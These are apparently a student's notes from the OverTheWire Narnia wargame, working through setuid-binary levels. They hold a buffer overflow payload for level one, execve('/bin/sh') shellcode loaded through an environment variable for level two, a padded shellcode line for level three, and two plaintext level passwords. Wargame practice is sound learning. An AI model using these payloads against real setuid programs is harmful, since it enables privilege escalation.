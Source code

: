 # Narnia
### basic game info
```
levels: narnia0 narnia1...
narnia.labs.overthewire.org on port 2226

passwords at:
/etc/narnia_pass/
```
### level 1
#### attempts
1. looked for suspicious ports
2. cat the narnia1 password.
3. `You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.`
   meaning there is a source code inside this machine lets find it... <br>
when running `find . | grep narnia`, you I found narnia0.c and its executable! <br>

the program is a simple buffer overflow the given buffer is 20 bytes and 
after that there is the target value. if you sucessfully overflow you get a shell.<br>
`setreuid(geteuid() geteuid())`, sets a real and effective user IDs of the calling process.<br>
The calling process will be the next level, because you can a SUID flag on the executable.

#### buffer overflow attempts
given a buff[20] and a value before it. the stack would look like this.<br>
| var      | high memory addr<br>
| buff[20] | low memory addr<br>

The program input 24 chars of string into buff, which is already a buffer overflow.

1. tried to enter `20*a+0xdeadbeef` <br> 
    val = edx0<br>
    buff = aaaaaaaaaaaaaaaaaaaa0xde<br>
    those there are the reverse of each other<br>
    target val = 0xdeadbeef = 3735928559<br>

    the input deadbeef should be reversed and without `0x`<br>
    this method worked partly, var = hex(beef) we need to eneter beef as hex reversed<br>
    `0xf0xe0xe0xb0xd0xa0xe0xd`
    
## solution
#### steps
- from the first input `20*a+0xdeadbeef`, we can infer three things:<br>
  1. the input only scan 4 more bytes
  2. the output is reversed meaning the order is little indian
  3. 0x would not help use get values as hex values
- now deadbeef would be in little indian every byte at the end goes to the start
- efbeadde in hex. in the bash shell hex can be represent by \x.
- `aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde`
- lastly in order to stay inside the shell we need to run a command inside the new shell
- `(echo -e "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde"; cat;) | ./narnia0` this is called command group.



## Level 2
```C
#include <stdio.h>

int main()
{
    int (*ret)();

    if(getenv("EGG")==NULL)
    {
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
### anlays
- getenv() - gets the value of the given global variable<br>
  they use getenv() instead of secure_getenv(), to enable not only the creator of this exe to enter environment variable.
- to set environment variables in linux, `EGG="test"`, `export` keywoard would make the variable scope inside all derive process.
- we can only pass a function that returns integer and doesn't get parameters and is built in the stdio.h library.<br>
  tested system and printf functions but the function throws segmentation fault.
- segmentation fault -> you access  memory that "does not belong to you".
- 
### Attemps
- add a `export EGG="system(\"bin/sh\")"`, didn't work. The idea is to pass that will run the command `cat /etc/narnia_pass/narnia2`
- use bash functions, `export EGG="expliot(){cat /etc/narnia_pass/narnia2}"`, no luck...
- use c functions, the problem is that we need to create a function declaration a line before.
  ```C
  int main() 
  {
    int (*ret)();
    
    int test() { printf("s"); } 

    ret = test;
    ret();
    return 0;
  }
  ```
### Solusion 
to execute the a shell he passed a python -c with print that prints the bytes of execve(/bin/sh).<br>
```C
export EGG=`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'`
export EGG=$(python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')
```
He used https://www.exploit-db.com/exploits/44594 for the byte array.<br>
The new idea for solving this level is `shellcoding`, for further info see `pwn.md`.
## Level 3
### analys
- stdlib -> system(), check random stack (0xf7e4c850, )
Generate random string 
```py
import pyperclip, random
pyperclip.copy(''.join(random.choice("abcdefghijklmnopqrstuvwxyz") for _ in range(1000)))
```
- doesn't work, struct.pack("I", 0xf7e84b09)
- run the ip pointer that way at the end of main we can execute buff
- `python3 -c "print('\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80'+ 'a'*(132-49)+'buff')" > /tmp/x`
### Passwords
level
- 1 -> `efeidiedae` : no time + help
- 2 -> `nairiepecu` : no time + help



## Terms
- real uid: the user ID
- effective uid: id can give the current user root privilage, with files.
- saved uid: id to lower your privilage inside a process.

